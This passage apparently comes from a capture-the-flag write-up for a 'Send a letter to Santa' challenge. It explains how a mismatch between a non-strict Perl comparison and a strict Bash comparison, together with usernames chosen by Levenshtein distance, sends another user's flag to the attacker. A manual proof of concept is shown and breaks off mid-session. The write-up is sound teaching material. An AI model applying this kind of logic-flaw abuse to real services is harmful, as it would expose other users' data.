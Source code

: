 The treatment is once again similar.

**However**, one thing is different:

In **handle_letter.pl**:

```perl
if ($n le $score) { $user = $1; $score = $n; }
```

In **present.bash**:

```bash
if (( n < score )); then user="$u" score="$n"; fi
```

The inegality is strict in **present.bash** but not in **handle_letter.pl**.
We'll use it to get a different receiver and present owner.

In term of levenshtein distance, we want the following:

```
------------             -------------             -------------
             \    1    /               \    1    /
present owner |<=====>| letter receiver |<=====>| real receiver
             /         \               /         \
------------             -------------             -------------
```

We'll send our letter as Santa to a non-existent user which would be
equidistant from the present owner and the user who would reveive the response.

In addition, the alphabetical order of usernames is important to get username
in a specific order after the globbing. In fact, the present owner must come
first to be selected when choosing the user for the present.


### Proof of Concept

We now know a complete attack scenario which will be used in this PoC.

#### Manual proof

We want to steal *toto*'s flag. To do it, we'll use the user *tutu*:

```
Hi! Welcome to our 'Send a letter to Santa' service.
To use the service, you can (R)egister or (L)ogin to your account.
Want to (R)egister or (L)ogin?
R
Please type your desired: username password
tutu tutu
Your username and password has been saved!
```

Let's send a message as Santa to *tuto*:

```
Hi! Welcome to our 'Send a letter to Santa' service.
To use the service, you can (R)egister or (L)ogin to your account.
Want to (R)egister or (L)ogin?
L
Please type: username password
tutu tutu
Hi! You can finally send/read letters/responses to Santa!!!!
Here, you can read or write a letter, or read responses from Santa!
Choose (W) to write letter. (L) for reading letter. And (R) for reading responses.
W
Please type in your letter (max 10 lines). Use an empty line to indicate you're done.
Dear tuto,
Thanks for the flag: $PRESENT
3
```